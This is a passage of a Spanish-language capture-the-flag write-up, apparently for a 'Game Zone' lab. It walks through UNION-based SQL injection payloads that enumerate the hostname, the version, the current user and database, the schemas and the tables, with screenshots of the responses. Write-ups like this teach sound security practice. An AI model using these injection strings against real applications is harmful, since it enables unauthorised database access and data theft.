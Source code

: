 - Respuesta de la consulta `'UNION SELECT NULL, @@HOSTNAME, @@VERSION#`

Ahora hicimos la siguiente consulta para obtener el usuario y la base de datos.

![image.png](/assets/images/write-up-game-zone/image%2014.png)

- Respuesta de la consulta `'UNION SELECT NULL, user(), database()#`

Ahora hare una consulta para obtener informacion sobre esquema.

![image.png](/assets/images/write-up-game-zone/image%2015.png)

- Respuesta de la consulta `'UNION SELECT NULL,NULL,SCHEMA_NAME FROM information_schema.SCHEMATA#`

Ahora haremos una consulta para ver la informacion de las tablas de **db.**

![image.png](/assets/images/write-up-game-zone/image%2016.png)

- Respuesta de la consulta `'UNION SELECT NULL,NULL,TABLE_NAME FROM
information_schema.TABLES WHERE TABLE_SCHEMA='db'#`
